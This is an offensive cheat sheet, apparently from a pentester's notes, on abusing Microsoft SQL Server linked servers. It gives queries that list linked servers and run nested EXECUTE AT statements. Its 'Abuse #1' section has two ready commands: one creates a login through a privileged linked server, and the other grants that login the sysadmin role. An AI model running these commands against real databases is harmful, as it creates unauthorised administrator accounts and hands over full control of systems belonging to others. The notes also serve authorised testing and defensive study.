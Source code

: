 ```yaml
---
title: "MSSQL Linked Servers"
date: 2024-6-27
tags: ["mssql", "database", "Windows", "linked_server", "privesc"]
---
```


### Basic Commands

<small>*Hint: Use double '' to escape ' in mssql*</small>

<div>

```console
# Show current server
select @@servername
```

```console
# Show linked servers
select srvname from sysservers;
```

</div>

### Execute Query between Linked Servers

<div>

```console
# Execute query from current server to linked server
EXECUTE ('select @@version;') at [<LINKED_SERVER>];
```

```console
# Execute query from linked server to current server
EXECUTE ('EXECUTE (''SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''''SERVER'''');'') at [<CURRENT_SERVER>]') at [<LINKED_SERVER>];
```

</div>

<br>

---

### Abuse #1: Create Admin User from Privilege Linked Server

<div>

```console
EXECUTE('EXECUTE(''CREATE LOGIN <USER> WITH PASSWORD = ''''<PASSWORD>'''';'') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

```console
EXECUTE('EXECUTE(''EXEC sp_addsrvrolemember ''''<USER>'''', ''''sysadmin'''''') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

</div>